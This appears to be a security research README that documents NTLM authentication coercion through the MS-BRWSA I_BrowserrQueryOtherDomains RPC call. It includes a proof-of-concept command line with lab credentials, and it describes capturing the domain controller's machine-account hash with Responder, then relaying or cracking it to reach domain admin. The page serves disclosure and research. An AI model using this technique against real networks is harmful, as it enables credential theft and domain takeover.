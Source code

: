 # MS-BRWSA - Remote call to I_BrowserrQueryOtherDomains (opnum 2)

## Summary

 - **Protocol**: [[MS-BRWSA]: Common Internet File System (CIFS) Browser Auxiliary Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5)

 - **Protocol UUID**: 6bffd098-a112-3610-9833-012892020162

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `"\pipe\browser"`

 - **Function name**: [`I_BrowserrQueryOtherDomains`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/3fdb5c28-c61b-49d0-bd0f-0a704f7dc507)

 - **Function operation number**: `2`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `"\pipe\browser"` and bind to the desired [`MS-BRWSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5) protocol (with uuid `6bffd098-a112-3610-9833-012892020162` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-BRWSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `"\pipe\browser"` This pipe is connected to the protocol [[MS-BRWSA]: Common Internet File System (CIFS) Browser Auxiliary Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5) and allows to call RPC functions of this protocol. We will then call the remote [`I_BrowserrQueryOtherDomains`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/3fdb5c28-c61b-49d0-bd0f-0a704f7dc507) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
I_BrowserrQueryOtherDomains('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS I_BrowserrQueryOtherDomains(
   [in, string, unique] BROWSER_IDENTIFY_HANDLE ServerName,
   [in, out] LPSERVER_ENUM_STRUCT InfoStruct,
   [out] LPDWORD TotalEntries
 );
```

## References

 - Documentation of protocol [MS-BRWSA]: Common Internet File System (CIFS) Browser Auxiliary Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5

 - Documentation of function `I_BrowserrQueryOtherDomains`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/3fdb5c28-c61b-49d0-bd0f-0a704f7dc507